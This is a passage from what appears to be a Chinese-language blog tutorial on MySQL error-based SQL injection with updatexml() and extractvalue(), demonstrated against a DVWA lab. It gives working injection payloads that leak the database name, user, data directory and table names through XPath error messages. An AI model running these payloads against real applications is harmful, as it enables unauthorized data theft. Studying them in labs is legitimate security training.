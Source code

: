     `extractvalue（）`  
      
    当这两个函数在执行时，如果出现xml文档路径错误就会产生报错  
      
    
- **`updatexml（）` 函数**  
    
    - ` updatexml（）` 是一个使用不同的xml标记匹配和替换xml块的函数。
        
    - 作用：改变文档中符合条件的节点的值
        
    - 语法： `updatexml（XML_document，XPath_string，new_value）` 第一个参数：是string格式，为XML文档对象的名称，文中为Doc 第二个参数：代表路径，Xpath格式的字符串例如//title【@lang】 第三个参数：string格式，替换查找到的符合条件的数据
        
    - updatexml使用时，当xpath_string格式出现错误，mysql则会爆出xpath语法错误（xpath syntax）
        
    - 例如：` select * from test where id = 1 and (updatexml(1,0x7e,3));` 由于0x7e是~，不属于xpath语法格式，因此报出xpath语法错误。
          
    
- **extractvalue（）函数 ** 
    - 此函数从目标XML中返回包含所查询值的字符串语法：`extractvalue（XML_document，xpath_string）` 第一个参数：string格式，为XML文档对象的名称第二个参数：xpath_string（xpath格式的字符串）` select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));`
        
    - extractvalue使用时当xpath_string格式出现错误，mysql则会爆出xpath语法错误（xpath syntax）
        
    - `select user,password from users where user_id=1 and (extractvalue(1,0x7e));`
        
    - 由于0x7e就是~不属于xpath语法格式，因此报出xpath语法错误。
        
    

**二、updatexml（）报错注入实战（基于dvwa平台）**

**前景提示：本人在虚拟机中搭建好了dvwa平台，在本机中完成SQL注入实战,加载dvwa直接进入SQL注入模块，我这里的等级为low。**

**我将自己构造的payload语句进行加粗显示，剩下的都是固定格式。**

**开始注入**

**爆出数据库及相关信息**   `dvwa` 是此处的表名
``` sql
1' and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#
```

![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200429233616379-1261655072.png)

 **爆当前数据库表信息**

``` sql
1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) #
```

![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200429234057249-1633845343.png)

 注：此处使用group_concat（）函数进行输出，否则会出现错误。如下图所示。

![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200429234312742-1503331986.png)

 **爆user表字段信息**
